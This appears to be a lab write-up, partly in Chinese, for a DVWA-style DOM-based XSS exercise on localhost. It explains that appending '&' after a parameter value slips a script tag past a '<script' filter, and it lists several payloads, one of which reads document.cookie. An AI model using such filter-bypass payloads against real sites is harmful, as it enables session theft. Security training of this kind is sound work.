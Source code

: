 # **DOM Based Cross Site Scripting (XSS)**

> The developer has tried to add a simple pattern matching to remove any references to "<script" to disable any JavaScript. Find a way to run JavaScript without using the script tags.
>

try 了一下，發現加了 `&` 在  English 後面可以逃過檢查，有時候後端過濾變數時會忘記處理重複性或多個變數的狀況，剛好類似目前的情境

```
English&<script>alert(1)</script>
```

```
default=English&<script>alert(1)</script>
```

```
http://localhost:8086/vulnerabilities/xss_d/?default=English&%3Cscript%3Ealert(1)%3C/script%3E
```

```
default=English&<script>alert(document.cookie)</script>
```

![](https://s3.us-west-2.amazonaws.com/secure.notion-static.com/685bf785-4bbb-4d54-9ea7-3804330eac06/Untitled.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45EIPT3X45%2F20220218%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220218T045922Z&X-Amz-Expires=86400&X-Amz-Signature=6aeeb597654785bb324d28ec9bba2deddf24d78de8bf10d5eff2b36dcdeae83d&X-Amz-SignedHeaders=host&response-content-disposition=filename%20%3D%22Untitled.png%22&x-id=GetObject)

